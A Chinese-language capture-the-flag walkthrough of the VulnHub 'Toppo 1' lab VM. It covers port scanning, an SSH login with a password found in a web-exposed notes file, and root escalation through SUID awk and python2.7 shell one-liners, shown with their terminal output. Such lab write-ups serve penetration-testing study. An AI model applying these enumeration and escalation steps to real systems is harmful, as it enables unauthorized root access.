

# Toppo 1

> https://download.vulnhub.com/toppo/Toppo.zip

靶场IP：`192.168.32.15`

扫描对外端口服务

```
┌──(root㉿kali)-[~]
└─# nmap -sV -p1-65535 192.168.32.15 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-08 22:53 EDT
Nmap scan report for 192.168.32.15
Host is up (0.00013s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
111/tcp   open  rpcbind 2-4 (RPC #100000)
56354/tcp open  status  1 (RPC #100024)
MAC Address: 08:00:27:2D:6E:35 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.77 seconds

```

访问80端口




查看：`notes.txt`

```
┌──(root㉿kali)-[~]
└─# curl http://192.168.32.15/admin/notes.txt
Note to myself :

I need to change my password :/ 12345ted123 is too outdated but the technology isn't my thing i prefer go fishing or watching soccer .

```

使用ted用户登录

```
┌──(root㉿kali)-[~]
└─# ssh ted@192.168.32.15           
The authenticity of host '192.168.32.15 (192.168.32.15)' can't be established.
ED25519 key fingerprint is SHA256:vJgmhqKOmHq0Mb0plSTyOdzw6GenPEkZkch+PIVozzw.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.32.15' (ED25519) to the list of known hosts.
ted@192.168.32.15's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Apr 15 12:33:00 2018 from 192.168.0.29

```

查看sudo列表

```
ted@Toppo:~$ sudo -l
-bash: sudo: command not found
ted@Toppo:~$ cat /etc/sudoers
ted ALL=(ALL) NOPASSWD: /usr/bin/awk
```

查找SUID文件

```
ted@Toppo:~$ find / -perm -u=s -type f 2>/dev/null
/sbin/mount.nfs
/usr/sbin/exim4
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/python2.7
/usr/bin/chsh
/usr/bin/at
/usr/bin/mawk
/usr/bin/chfn
/usr/bin/procmail
/usr/bin/passwd
/bin/su
/bin/umount
/bin/mount

```

提权方式

```
ted@Toppo:~$ awk 'BEGIN {system("/bin/sh")}'
# 
# id
uid=1000(ted) gid=1000(ted) euid=0(root) groups=1000(ted),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),114(bluetooth)
# cd /root
# ls -al
total 24
drwx------  2 root root 4096 Apr 15  2018 .
drwxr-xr-x 21 root root 4096 Apr 15  2018 ..
-rw-------  1 root root   53 Apr 15  2018 .bash_history
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
-rw-r--r--  1 root root  397 Apr 15  2018 flag.txt
-rw-r--r--  1 root root  140 Nov 19  2007 .profile
# cat flag.txt  
_________                                  
|  _   _  |                                 
|_/ | | \_|.--.   _ .--.   _ .--.    .--.   
    | |  / .'`\ \[ '/'`\ \[ '/'`\ \/ .'`\ \ 
   _| |_ | \__. | | \__/ | | \__/ || \__. | 
  |_____| '.__.'  | ;.__/  | ;.__/  '.__.'  
                 [__|     [__|              


Congratulations ! there is your flag : 0wnedlab{p4ssi0n_c0me_with_pract1ce}

```

```
ted@Toppo:~$ python2.7 -c 'import pty;pty.spawn("/bin/sh")'
# 
# id
uid=1000(ted) gid=1000(ted) euid=0(root) groups=1000(ted),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),114(bluetooth)

```

